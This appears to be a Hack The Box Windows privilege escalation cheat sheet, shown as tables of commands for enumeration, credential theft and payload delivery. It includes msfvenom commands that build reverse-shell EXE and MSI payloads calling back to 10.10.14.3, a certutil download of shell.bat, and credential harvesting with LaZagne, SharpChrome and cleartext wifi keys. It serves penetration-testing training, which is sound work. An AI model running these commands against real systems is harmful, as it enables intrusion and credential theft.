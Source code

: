 | `Get-CimInstance Win32_StartupCommand \| select Name, command, Location, User \| fl`                                                                                                  | Check startup programs                                     |
| `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe`                                                                       | Generating a malicious binary                              |
| `get-process -Id 3324`                                                                                                                                                                | Enumerating a process ID with PowerShell                   |
| `get-service \| ? {$_.DisplayName -like 'Druva*'}`                                                                                                                                    | Enumerate a running service by name with PowerShell        |

## Credential Theft

| **Command**                                                                                                               | **Description**                                    |
| ------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------- |
| `findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml`                                                              | Search for files with the phrase "password"        |
| `gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' \| Select-String password` | Searching for passwords in Chrome dictionary files |
| `(Get-PSReadLineOption).HistorySavePath`                                                                                  | Confirm PowerShell history save path               |
| `gc (Get-PSReadLineOption).HistorySavePath`                                                                               | Reading PowerShell history file                    |
| `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`                                                                 | Decrypting PowerShell credentials                  |
| `cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt`                                         | Searching file contents for a string               |
| `findstr /si password *.xml *.ini *.txt *.config`                                                                         | Searching file contents for a string               |
| `findstr /spin "password" *.*`                                                                                            | Searching file contents for a string               |
| `select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password`                                              | Search file contents with PowerShell               |
| `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`                                        | Search for file extensions                         |
| `where /R C:\ *.config`                                                                                                   | Search for file extensions                         |
| `Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`                                  | Search for file extensions using PowerShell        |
| `cmdkey /list`                                                                                                            | List saved credentials                             |
| `.\SharpChrome.exe logins /unprotect`                                                                                     | Retrieve saved Chrome credentials                  |
| `.\lazagne.exe -h`                                                                                                        | View LaZagne help menu                             |
| `.\lazagne.exe all`                                                                                                       | Run all LaZagne modules                            |
| `Invoke-SessionGopher -Target WINLPE-SRV01`                                                                               | Running SessionGopher                              |
| `netsh wlan show profile`                                                                                                 | View saved wireless networks                       |
| `netsh wlan show profile ilfreight_corp key=clear`                                                                        | Retrieve saved wireless passwords                  |

## Other Commands

|**Command**|**Description**|
|---|---|
|`certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`|Transfer file with certutil|
|`certutil -encode file1 encodedfile`|Encode file with certutil|
|`certutil -decode encodedfile file2`|Decode file with certutil|
|`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`|Query for always install elevated registry key (1)|
|`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`|Query for always install elevated registry key (2)|
|`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi`|Generate a malicious MSI package|
|`msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart`|Executing an MSI package from command line|
|`schtasks /query /fo LIST /v`|Enumerate scheduled tasks|
